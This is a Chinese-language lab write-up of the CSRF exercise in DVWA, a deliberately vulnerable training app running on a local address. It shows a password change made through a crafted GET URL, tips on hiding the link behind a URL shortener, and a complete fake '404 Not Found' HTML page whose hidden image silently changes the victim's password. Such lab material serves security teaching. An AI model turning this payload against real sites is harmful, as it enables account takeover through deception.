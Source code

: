 **mysql_real_escape_string():**  转义SQL语句中使用的字符串中的特殊字符。如下：

+ \x00
+ \n
+ \r
+ \
+ '
+ "
+ \x1a

代码对SQL注入进行了防御，而没有对密码的修改进行二次验证。

[![rffVrq.png](https://s3.ax1x.com/2020/12/26/rffVrq.png)](https://imgchr.com/i/rffVrq)

​        在修改密码处修改密码，将密码改为123456，点击change，提示修改成功。

[![rffQG4.png](https://s3.ax1x.com/2020/12/26/rffQG4.png)](https://imgchr.com/i/rffQG4)

但此时的网页URL也变为了：

``http://192.168.216.129/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#`` 

很明显可以被发现我们的密码被改变了。

我们直接在URL处进行密码修改：

``http://192.168.216.129/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#``

发现密码改回。这就是一个简单的CSRF攻击，但是很容易被发现。

**对CSRF进行优化：**

+ 利用短链接工具将URL缩短，增强欺骗性。如：

[![rffNdK.md.png](https://s3.ax1x.com/2020/12/26/rffNdK.md.png)](https://imgchr.com/i/rffNdK)

生成短链接，不易被发现

[![rff0RH.png](https://s3.ax1x.com/2020/12/26/rff0RH.png)](https://imgchr.com/i/rff0RH)

但是修改密码后还是会出现密码修改的痕迹。

+ 构建一个页面，诱导用户去点击

```
<html>
<head>
	<meta charset="utf-8">
	<title>404 Not Found</title>
</head>
<body>
	<img src="http://192.168.216.129/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#" border="0" style="display:none;"/>
	<center>
		<h1>404 Not Found</h1>
	<center>
</body>
</html>
```
